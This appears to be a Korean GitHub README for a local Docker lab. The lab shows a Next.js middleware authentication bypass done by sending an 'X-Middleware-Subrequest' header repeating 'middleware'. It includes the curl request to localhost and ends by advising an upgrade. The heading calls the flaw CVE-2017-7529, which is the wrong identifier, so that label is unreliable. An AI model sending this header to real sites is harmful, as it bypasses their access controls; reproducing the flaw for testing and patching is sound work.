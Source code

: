 # CVE-2017-7529

> [Github (@j93es)](https://github.com/j93es)

> [Blog](https://j93.es)

<br/>

### 요약

아래 Nextjs 버전에서 `x-middleware-subrequest`헤더에 특정 값을 추가하여 요청 시, middleware의 인증검사가 우회됩니다.

- \> 11.1.4 < 12.3.5
- \> 14.0 <14.2.25
- \> 15.0 <15.2.3
- \>= 13.0.0, < 13.5.9

<br/>

### 환경 구성 및 실행

```sh
# 이미지 빌드
make build

# 컨테이너 실행
make up

# 종료
make down

# 로그 보기
make logs

# 컨테이너 재시작
make restart

# 컨테이너 및 이미지 제거 가능
make clean

# 이미지 제거 후 재빌드
make rebuild
```

<br/>

### 결과

#### 정상적인 요청

```sh
curl -v http://localhost:8001/
```

![normal](./asset/normal.png)

#### 취약한 요청

```sh
curl -v http://localhost:8001/ -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```

![normal](./asset/vuln.png)

수신된 html 요청의 전문은 `./asset/bypassed.html`에서 확인 가능합니다.

<br/>

### 정리

Nextjs 특정 버전에서 `x-middleware-subrequest`헤더에 특정 값을 추가하여 요청 시, middleware의 인증검사가 우회됩니다. 15.2.2에서는 `X-Middleware-Subrequest`에 `middleware:middleware:middleware:middleware:middleware`로 요청 시에 middleware의 인증검사가 우회됩니다. 따라서 최신 버전의 Nextjs로 업데이트해야합니다.
